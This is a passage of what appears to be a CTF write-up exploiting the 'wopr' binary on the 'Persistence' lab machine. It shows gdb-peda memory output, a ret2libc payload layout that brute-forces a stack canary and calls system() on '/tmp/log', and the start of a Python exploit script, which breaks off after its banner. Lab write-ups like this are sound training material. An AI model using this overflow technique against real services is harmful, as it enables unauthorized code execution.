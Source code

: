 ```bash finding /tmp/log
   0x80487dc <get_reply+104>:   leave  
   0x80487dd <get_reply+105>:   ret    
=> 0x80487de <main>:    push   ebp
   0x80487df <main+1>:  mov    ebp,esp
   0x80487e1 <main+3>:  sub    esp,0x258
   0x80487e7 <main+9>:  mov    eax,DWORD PTR [ebp+0x8]
   0x80487ea <main+12>: mov    DWORD PTR [ebp-0x23c],eax
[------------------------------------stack-------------------------------------]
0000| 0xbffff3fc --> 0xb7e8ae36 (<__libc_start_main+230>:   mov    DWORD PTR [esp],eax)
0004| 0xbffff400 --> 0x1 
0008| 0xbffff404 --> 0xbffff4a4 --> 0xbffff60a ("wopr")
0012| 0xbffff408 --> 0xbffff4ac --> 0xbffff629 ("SSH_AGENT_PID=3171")
0016| 0xbffff40c --> 0xb7fe08d8 --> 0xb7e74000 --> 0x464c457f 
0020| 0xbffff410 --> 0xb7ff6821 (mov    eax,DWORD PTR [ebp-0x10])
0024| 0xbffff414 --> 0xffffffff 
0028| 0xbffff418 --> 0xb7ffeff4 --> 0x1cf2c 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 1, 0x080487de in main ()

gdb-peda$ searchmem /tmp/log
Searching for '/tmp/log' in: None ranges
Found 2 results, display max 2 items:
wopr : 0x8048c60 ("/tmp/log")
wopr : 0x8049c60 ("/tmp/log")
```

`/tmp/log` can be found in 2 places. Lets choose `0x8048c60`! Now we finally have everything we need to build the payload to send.

##wopr - the exploit
To sum up what we have to do to exploit this, we can say that we have to:

- Provide a string of size 30
- Provide the canary we have brute forced
- Pad with 4 bytes
- Write EIP to the location of `system()`
- Provide 4 bytes of JUNK (or the location of `exit()` as a return)
- Provide the location of `/tmp/log`

In my exploit, as a result of the above, I would therefore send a payload similar to this:

```text
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "\xff\xff\xff\xff" + "AAAA" + 
"\x10\xc2\x16\x00" + "JUNK" + "\x60\x8c\x04\x08"
```

I finished up coding the exploit, which eventually resulted in the following:

```python Persistence Sploit
import socket
import sys
import os

payload = "A" * 30  # amount of bytes to before the canary is hit
canary = ""     # canary that should update as its bruted

print """
            A: "So, I heard you like pain...?"
            B: "... a bit"
            C: "Well, here it is, the: "
 ____   ___  ____    _____ ____ _____ ______    ___  ____     __    ___ 
|    \ /  _]|    \  / ___/|    / ___/|      |  /  _]|    \   /  ]  /  _]
|  o  )  [_ |  D  )(   \_  |  (   \_ |      | /  [_ |  _  | /  /  /  [_ 
|   _/    _]|    /  \__  | |  |\__  ||_|  |_||    _]|  |  |/  /  |    _]
|  | |   [_ |    \  /  \ | |  |/  \ |  |  |  |   [_ |  |  /   \_ |   [_ 
|  | |     ||  .  \ \    | |  |\    |  |  |  |     ||  |  \     ||     |
```
